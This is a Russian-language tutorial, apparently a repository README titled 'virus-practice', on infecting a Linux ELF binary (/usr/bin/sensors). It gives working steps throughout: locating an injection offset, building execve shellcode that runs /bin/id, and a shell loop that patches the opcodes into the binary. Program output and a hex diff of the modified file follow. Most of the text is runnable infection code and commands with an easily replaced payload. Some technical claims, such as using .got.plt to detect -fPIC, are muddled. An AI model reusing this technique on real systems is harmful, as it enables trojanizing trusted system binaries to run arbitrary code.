 # virus-practice
Опишу практику заражения файлов elf в linux
Наш подопытный: /usr/bin/sensors

Для начала нам нужно убедиться, что программа не скомпилирована с бит защиты -fPIC. Для этого ищим в headers поля .got.plt (мы же не хотим исполнить команду в области памяти и получить segmentation fault):
````
readelf -a sensors|grep ".got.plt"
  [22] .got.plt          PROGBITS         0000000000006fe8  00006fe8
   05     .init_array .fini_array .data.rel.ro .dynamic .got .got.plt .data .bss 
   12     .init_array .fini_array .data.rel.ro .dynamic .got .got.plt 
````
00006fe8 - очень хорошо. Сразу узнаем смещение для инъекции
```
r2 -A /usr/bin/sensors
afl
0x000027f0    5     55 entry.fini0
q
objdump -d /usr/bin/sensors|grep -A2 "27f0"
    27f0:	f3 0f 1e fa          	endbr64
    27f4:	80 3d a5 48 00 00 00 	cmpb   $0x0,0x48a5(%rip)        # 0x70a0
    27fb:	75 33                	jne    0x2830
```
Смещение удачное у нас будет в a=0x000027f4 (запомнили)

Выбираем что будем инъектить. У меня будет выполнение команды /bin/id

Вот вам скрипт для перевода в hex
```
 odity@viva  ~/bin/elf  cat rev.py          
def rev_str(s):
    return s[:: - 1]
s = '/bin/id'
s= rev_str(s)
for i in s:
    t=hex(ord(i))
    print(t[2:])

```
Выполянем его и получаем ...
```
✘ odity@viva  ~/bin/elf  python rev.py|tr -d '\n'
64692f6e69622f%      
```
Почемуем строку в syscall-id.asm  и собраем его.  Вообще это лишнее,чтоб вам было понятнее что куда брать. Собрали, потом из исполняемого файла syscall-id получаем opcode команд наших:
```
objdump -d syscall-id
изассемблирование раздела .text:

0000000000401000 <.text>:
  401000:	48 31 d2             	xor    %rdx,%rdx
  401003:	52                   	push   %rdx
  401004:	48 b8 2f 62 69 6e 2f 	movabs $0x64692f6e69622f,%rax
  40100b:	69 64 00 
  40100e:	50                   	push   %rax
  40100f:	48 89 e7             	mov    %rsp,%rdi
  401012:	52                   	push   %rdx
  401013:	57                   	push   %rdi
  401014:	48 89 e6             	mov    %rsp,%rsi
  401017:	48 31 c0             	xor    %rax,%rax
  40101a:	b0 3b                	mov    $0x3b,%al
  40101c:	0f 05                	syscall
```

Вот начиная от 48 до 05 выписываем  opcode  и через мою утилиту hexedit генерируем инъекцию.... (последним будет opcode с3)

```
a=0x000027f4;for i in $(echo "48 31 d2 52 48 b8 2f 62 69 6e 2f 69 64 00 50 48 89 e7 52 57 48 89 e6 48 31 c0 b0 3b 0f 05 c3"); do printf "./hexedit sensors 0x0000%X 0x%02X\n" $(($a)) "0x"$i; a=0x0000$(([##16] $a+0x1));done
```
Смещение 0x000027f4 узнали ранее. Выполняем скрипт и потом уже сам файл и...

```
 odity@viva  ~/bin/elf  ./sensors 
coretemp-isa-0000
Adapter: ISA adapter
Package id 0:  +22.0°C  (high = +84.0°C, crit = +100.0°C)
Core 0:        +19.0°C  (high = +84.0°C, crit = +100.0°C)
Core 1:        +21.0°C  (high = +84.0°C, crit = +100.0°C)
Core 2:        +19.0°C  (high = +84.0°C, crit = +100.0°C)
Core 3:        +19.0°C  (high = +84.0°C, crit = +100.0°C)

acpitz-acpi-0
Adapter: ACPI interface
temp1:        +27.8°C  
temp2:        +29.8°C  

uid=1000(odity) gid=1000(odity) groups=1000(odity),958(libvirt-qemu),959(libvirt),992(kvm),998(wheel)
```

Сравниваем исходный файл с крякнутым.

```
640,642c640,642
< 000027f0: f30f 1efa 4831 d252 48b8 2f62 696e 2f69  ....H1.RH./bin/i
< 00002800: 6400 5048 89e7 5257 4889 e648 31c0 b03b  d.PH..RWH..H1..;
< 00002810: 0f05 c315 a047 0000 e863 ffff ffc6 057c  .....G...c.....|
---
> 000027f0: f30f 1efa 803d a548 0000 0075 3355 4883  .....=.H...u3UH.
> 00002800: 3db2 4700 0000 4889 e574 0d48 8b3d f647  =.G...H..t.H.=.G
> 00002810: 0000 ff15 a047 0000 e863 ffff ffc6 057c  .....G...c.....|
```
